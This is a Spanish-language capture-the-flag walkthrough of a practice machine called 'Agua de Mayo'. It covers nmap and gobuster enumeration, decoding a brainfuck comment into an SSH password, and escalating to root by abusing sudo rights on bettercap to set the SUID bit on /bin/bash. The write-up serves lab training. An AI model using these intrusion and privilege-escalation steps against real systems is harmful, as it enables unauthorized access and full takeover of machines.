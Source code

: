 # Agua de Mayo
![image](https://github.com/user-attachments/assets/d4ee9a17-fcbe-41a2-ae97-464c3736755e)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sSCV -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sSCV`: Realiza un escaneo SYN, de versiones y vulnerabilidades.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
![image](https://github.com/user-attachments/assets/ed50cfd3-edc0-44cd-82a7-3674d6df2be8)

En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**. Aunque si miramos el código fuente de la página y bajamos hata el final nos encontramos con un comentario.

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
Es un mensaje codificado en **brainfuck** y si vamos a [dcode](https://www.dcode.fr/brainfuck-language) podremos descifraslo fácilmente.
![image](https://github.com/user-attachments/assets/1c963813-2e64-4947-a5dd-0f45f7dd3808)

Una vez tenemos una posible contraseña, miramos el resultado del fuzzin a ver si encontramos algo.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/1a88b909-9812-4fad-934e-9e35d10cdd50)

Encontramos el directorio **/images** y dentro de él una imagen llamada **agua_ssh.jpg**.

![image](https://github.com/user-attachments/assets/3ffae8f6-13dc-46e5-803c-42efaec93eb3)

Después de buscar si encontramos algo dentro de la imágen, vemos que no hay nada pero que el nombre podría indicarnos un que el usuario de **ssh** sea **agua**. Lo comprobamos con la contraseña y estamos dentro de la máquina.

## Explotación.

```bash
ssh agua@172.17.0.2
```
![image](https://github.com/user-attachments/assets/6044a823-212c-427f-a4af-06b2cc4b3c32)

## Escalada de privilegios.

Comprobamos si hay algún archivo que podamos utilizar con permisos de root.
```bash
sudo -l
```
Vemos que podemos ejecutar **/usr/bin/bettercap** como **root**. Lo ejecutamos y encontramos en la ayuda que podemos ejecutar un comando.

![image](https://github.com/user-attachments/assets/dd3cf928-7197-4a20-85d2-9452b10ad972)

Aprovechamos para cambiar los permisos a la **bash** y así ejecutarla como privilegios.

```bash
! chmod u+s /bin/bash
```
Salimos, y ejecutamos el siguiente comando para optener la bash como **root**.

```bash
/bin/bash -p
```
![image](https://github.com/user-attachments/assets/e42da890-b5cf-497b-aa4c-70011c2c296e)





